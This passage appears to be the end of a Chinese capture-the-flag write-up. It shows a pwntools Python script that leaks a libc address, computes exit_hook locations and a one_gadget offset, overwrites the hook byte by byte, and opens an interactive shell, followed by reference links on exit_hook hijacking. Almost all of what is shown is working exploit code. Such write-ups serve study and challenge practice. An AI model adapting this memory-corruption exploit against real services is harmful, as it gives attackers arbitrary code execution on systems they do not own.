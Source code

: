 ```python
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

payload = '''
{   
    "name": "a",
    "passwd": "b"
}
'''
payload = payload.replace('\n','')

def pwn():
    z('b *main')
    p.sendline(payload)
    p.recvuntil('logger:')
    p.recvuntil('logger:')
    libc_base = leak_address()-0x3c4b78
    print(hex(libc_base))
    if libc_base < 0x7f0000000000:
        return 0
    exit_hook1=libc_base+0x8f9f48
    exit_hook2=libc_base+0x8f9f50
    
    one_gadget = libc_base+0xf0364
    a = p64(one_gadget)[0]
    p.send(p64(exit_hook1))
    p.send(p8(a))
    p.send(p64(exit_hook1+1))
    a = p64(one_gadget)[1]
    print(hex(one_gadget),p8(a))
    p.send(p8(a))
    p.send(p64(exit_hook1+2))
    a = p64(one_gadget)[2]
    print(hex(one_gadget),p8(a))
    p.send(p8(a))
    ia()
pwn()
```



>
>
>参考资料
>
>[libc-2.29](https://code.woboq.org/userspace/glibc/stdlib/exit.c.html#__run_exit_handlers)
>
>[ROAR ctf 部分wp](https://www.anquanke.com/post/id/224892#h3-3)
>
>[exit_hook劫持](https://blog.csdn.net/qq_43116977/article/details/105485947)

